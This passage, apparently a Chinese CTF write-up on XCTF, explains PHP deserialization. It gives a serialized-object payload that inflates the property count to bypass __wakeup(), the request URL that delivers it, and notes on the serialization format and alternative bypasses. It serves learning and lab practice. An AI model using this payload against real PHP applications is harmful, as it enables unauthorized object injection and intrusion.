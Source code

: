 > 4. 将设置属性值为2，可导致反序列化异常，如下所示。  
>       ```php
>       O:4:"xctf":2:{s:4:"flag";s:3:"111";}
>       ```
> 
> 4. 根据代码中的`?code=`可得知，将得到的序列化字符串赋值给code进行传递。
> 
> 5. 访问
>       ```
>       http://111.198.29.45:34517?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
>       ```
>       得到flag，如图所示。

**总结**：
1. 对象序列化后格式：
    ```php
    O:类名长度:"类名":public属性个数:{s:public属性名长度:"属性名";数据类型:属性值长度:"属性值";s:public属性名长度:"属性名";数据类型:属性值长度:"属性值";}
    ```
1. 执行`unserialize()`时，当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过`__wakeup()`
2. 本题中将最前面表示对象类型的`O`改成小写`o`或者改各个长度和类型字段也行  2020.8.26.Wed


_//未完待xu_